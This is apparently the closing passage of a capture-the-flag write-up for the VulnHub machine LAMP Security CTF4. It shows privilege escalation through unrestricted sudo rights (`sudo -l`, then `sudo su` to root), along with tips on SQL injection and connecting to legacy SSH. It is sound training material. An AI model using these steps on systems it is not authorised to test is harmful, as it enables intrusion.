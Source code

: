 From the results of the `id` and `groups` command it can be seen that user dstevens is an admin.

## Privilege Escalation

The first thing that we can look at is the output of `sudo -l` command

```bash
[dstevens@ctf4 ~]$ sudo -l
User dstevens may run the following commands on this host:
    (ALL) ALL
```

And it can be seen over here that user dstevens can run all the command with `sudo` privilege. So, we can easily switch to `root` using the command `sudo su`

```bash
[dstevens@ctf4 ~]$ sudo su 
[root@ctf4 dstevens]# whoami
root
[root@ctf4 dstevens]# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel) context=user_u:system_r:unconfined_t:SystemLow-SystemHigh
```

With this we have obtained the `root` access to this machine!

## Some Key Points to Take Away

1. Always check the URL parameters for possible SQLi.
2. Change the SSH cryptographic algorithm when try to connect with a legacy machine.

## Mind Map

![lampSecurityCTF4](./.images/lampSecurityCTF4.png)

## References

1. [LAMP Security: CTF4](https://www.vulnhub.com/entry/lampsecurity-ctf4,83/)

2. [CrackStation](https://crackstation.net/)
3. [Solution for SSH Unable to Negotiate Errors](https://www.infosecmatter.com/solution-for-ssh-unable-to-negotiate-errors/)

